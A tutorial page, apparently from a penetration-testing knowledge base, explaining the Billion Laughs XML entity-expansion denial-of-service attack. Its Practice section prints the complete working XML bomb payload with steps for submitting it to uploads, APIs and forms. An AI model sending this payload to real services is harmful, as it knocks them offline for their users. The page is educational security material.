 ```yaml
---
title: Understanding the Billion Laugh XML Attack
description: Explore the Billion Laugh Attack, an XML bomb technique causing denial-of-service
  via entity expansion.
keywords:
- Billion Laugh Attack
- XML bomb
- denial of service
- exponential entity expansion
- XXE attack
- XML parser vulnerability
- resource exhaustion
---
```


# Billion Laugh Attack

## Context

The Billion Laugh Attack is a type of denial-of-service (DoS) attack that exploits XML parsing vulnerabilities. It leverages exponential entity expansion, also known as an XML bomb, to overwhelm system resources and render a service unresponsive. This technique is effective against parsers that do not impose limits on XML entity expansion. To effectively engage with this topic, you should be familiar with XML structure, entity declarations, XML parsing, and the general practice of exploiting XML External Entities (XXE) to perform a DoS attack.

## Theory

### Exponential Entity Expansion in XML (Billion Laughs)

The Billion Laugh Attack utilizes the concept of exponential entity expansion within XML files. An XML entity is a storage unit or placeholder used to represent data. In this attack, entities reference each other, causing a chain-like reaction during parsing. This leads to exponential data growth as the entities expand recursively.

Vulnerable XML parsers lack sufficient restrictions on entity expansion, making them susceptible to this attack. As a result, they can quickly exhaust available resources, such as memory and CPU time, shutting down the targeted server.

### XML Bomb Mechanics and Impact

The core mechanic of the XML bomb is to entice the parser into expanding nested entities recursively. An attacker crafts an XML file containing a labyrinth of these entity declarations. Once submitted, the parser reads these entities and begins expanding them exponentially, consuming a massive amount of memory and CPU cycles.

This attack's data flow is straightforward: 
- An attacker submits an XML bomb.
- The server's XML parser initiates entity expansion.
- Uncontrolled expansion leads to resource exhaustion.
- The server becomes unresponsive, resulting in a denial of service.

```mermaid
flowchart TD
    Attacker(XML Bomb) --> Server(XML Parser)
    Server --> Resource_Exhaustion
    Resource_Exhaustion --> Denial_of_Service
```

### Denial of Service via XML Parsing

Denial of Service (DoS) occurs when a service can no longer accommodate legitimate requests due to depleted resources. The success of a Billion Laugh Attack depends heavily on the targeted parser's configuration and limitations concerning entity expansions. Without proper checks, an XML bomb can cripple services by exhausting processing power and memory, making the system unresponsive.

## Practice

### Crafting and Delivering a Billion Laughs XML Bomb

- Begin by crafting the exploit payload. This XML document is designed to expand aggressively by defining entities that reference each other:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

- Submit the payload. This can be accomplished through several interfaces:
  - Use an application upload feature that accepts XML files.
  - Send it via an API endpoint configured to handle XML data.
  - Utilize web forms that process XML inputs.

- Observe the target's response and resource consumption:
  - Monitor for abnormal CPU or memory usage.
  - Check for service timeouts, slow responses, or complete unavailability.

The expected outcome of this attack is that the target server's resources will be rapidly exhausted, eventually leaving it unresponsive. This leads to a successful denial of service, impacting the availability of the application.

## Tools

- **curl**
- **Burp Suite**
- **Postman**